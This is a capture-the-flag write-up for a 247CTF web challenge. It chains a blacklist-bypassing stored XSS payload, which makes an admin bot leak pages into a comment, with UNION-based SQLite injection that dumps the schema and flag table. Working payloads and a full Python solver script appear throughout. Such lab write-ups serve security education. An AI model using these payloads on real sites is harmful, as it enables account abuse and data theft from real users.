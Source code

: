 # HELICOPTER ADMINISTRATORS [HARD]

## Description

> This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't?

## Source Code

No source code.

## Short Solution Description / Tags

XSS, SQLite SQL Injection

## Explore functionality

![1.png](img/1.png)

There are Admin and User 1, User 2 and User 3 pages.

![access_admin_page.png](img/access_admin_page.png)

We cannot access the Admin page.

![report_to_admin.png](img/report_to_admin.png)

![failed_xss_payload.png](img/failed_xss_payload.png)

![blacklist.png](img/blacklist.png)

It has a reporting to admin and a commenting functionalities.
We cannot comment characters that are included in the blacklist, such as `<script`.
Admin will access reporting page and remove comment.

I consider using XSS to make Admin access the Admin page /user/0 and get the response.
`<style` is not included in the blacklist so I input `<style/onload=alert(1)></style>` to comment and reload.

![xss_identification.png](img/xss_identification.png)

XSS fired.

## XSS Exploitation

Since Admin does not have an internet connection, I consider an XSS payload that Admin sends a request to /user/0 and comments its response to /user/3.

xss.js

```js
const xhr = new XMLHttpRequest();
xhr.open("GET", "/user/0", true);
xhr.send();
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + btoa(resp);
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
```

Base64 encode:

```console
$ base64 xss.js -w 0
Y29uc3QgeGhyID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnhoci5vcGVuKCJHRVQiLCAiL3VzZXIvMCIsIHRydWUpOwp4aHIuc2VuZCgpOwp4aHIub25sb2FkID0gZnVuY3Rpb24oKSB7ewogIGNvbnN0IHJlc3AgPSB4aHIucmVzcG9uc2U7CiAgY29uc3QgeGhyMiA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogIHhocjIub3BlbigiUE9TVCIsIi9jb21tZW50LzMiLHRydWUpOwogIGNvbnN0IHBhcmFtcyA9ICJjb21tZW50PSIgKyBidG9hKHJlc3ApOwogIHhocjIuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwogIHhocjIuc2VuZChwYXJhbXMpOwp9fTsK
```

Input the following comment:

```html
<style/onload=eval(atob("Y29uc3QgeGhyID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnhoci5vcGVuKCJHRVQiLCAiL3VzZXIvMCIsIHRydWUpOwp4aHIuc2VuZCgpOwp4aHIub25sb2FkID0gZnVuY3Rpb24oKSB7ewogIGNvbnN0IHJlc3AgPSB4aHIucmVzcG9uc2U7CiAgY29uc3QgeGhyMiA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogIHhocjIub3BlbigiUE9TVCIsIi9jb21tZW50LzMiLHRydWUpOwogIGNvbnN0IHBhcmFtcyA9ICJjb21tZW50PSIgKyBidG9hKHJlc3ApOwogIHhocjIuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwogIHhocjIuc2VuZChwYXJhbXMpOwp9fTsK"))></style>
```

and report it and access /user/3 page.

![xss_user3.png](img/xss_user3.png)

Decode it; replace single space (` `) to `+` by Find/Replace Recipe and decode by From Base64 Recipe:

![decode_by_cyberchef.png](img/decode_by_cyberchef.png)

I could get the /user/0 response, but The flag was not in the page.
Instead, the post form for /secret_admin_search was found.

I still need to make Admin send various requests so I scripted to automate the operations.

<details><summary>solver.py</summary>

```python
import base64
import random
import re
import string
import sys
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://11ee61b5d4e6169f.247ctf.com"


RANDOM_STR = "".join(random.choices(string.ascii_letters, k=10))

# XSS Payload for /user/0 response
XSS_PAYLOAD = f"""\
const xhr = new XMLHttpRequest();
xhr.open("GET", "/user/0", true);
xhr.send();
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
"""

SQLI_INPUT = sys.argv[1] if len(sys.argv) == 2 else "a"

XSS_PAYLOAD = f"""\
const xhr = new XMLHttpRequest();
xhr.open("POST", "/secret_admin_search", true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("search=" + "{SQLI_INPUT}");
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
"""


def main():
    xss_payload = base64.b64encode(XSS_PAYLOAD.encode()).decode()
    xss_payload = f'<style/onload=eval(atob("{xss_payload}"))></style>'

    # post comment with XSS Payload
    r = s.post(f"{BASE_URL}/comment/1", data={"comment": xss_payload})
    assert r.json()["result"] == "success", "Failed [POST] /comment/1"

    # report to let admin access to /user/1
    r = s.get(f"{BASE_URL}/report/1")
    assert r.json()["result"] == "success", "Failed [GET] /report/1"

    # get response
    r = s.get(f"{BASE_URL}/user/3")
    m = re.findall(rf"{RANDOM_STR}(.*?){RANDOM_STR}", r.text)
    assert m, "Not found admin access to [POST] /comment/3"

    b64_leaked_html = base64.b64decode(m[0].replace(" ", "+").encode()).decode()
    print(b64_leaked_html)


if __name__ == "__main__":
    main()
```

</details>

## SQLi Exploitation

For POST /secret_admin_search XSS Payload:

```js
const xhr = new XMLHttpRequest();
xhr.open("POST", "/secret_admin_search", true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("search=a");
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
```

Result:

```console
$ python3 solver.py
{"message":"SQLite error: no such column: a","result":"error"}
```

It seems to have a SQLi vulnerability so tried SQLite SQLi payload.

```console
$ python3 solver.py 'id'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # UNION SELECT is available
$ python3 solver.py 'id UNION SELECT 1,2,3,4,5,6--'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,2,3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # dumped SQLite verion
$ python3 solver.py 'id UNION SELECT 1,sqlite_version(),3,4,5,6--'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"3.25.3",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # dumped the table schema and found flag table
$ python3 solver.py "id UNION SELECT 1,GROUP_CONCAT('---'||sql||'---'),3,4,5,6 FROM sqlite_master--"
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"---CREATE TABLE user (id int primary key, name text, friends int, likes int, shares int, location text)---,---CREATE TABLE comment (id int, comment text)---,---CREATE TABLE flag (flag text)---",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

$ # got the flag
$ python3 solver.py "id UNION SELECT 1,GROUP_CONCAT('---'||flag||'---'),3,4,5,6 FROM flag--"
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"---247CTF{[REDACTED]}---",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}
```
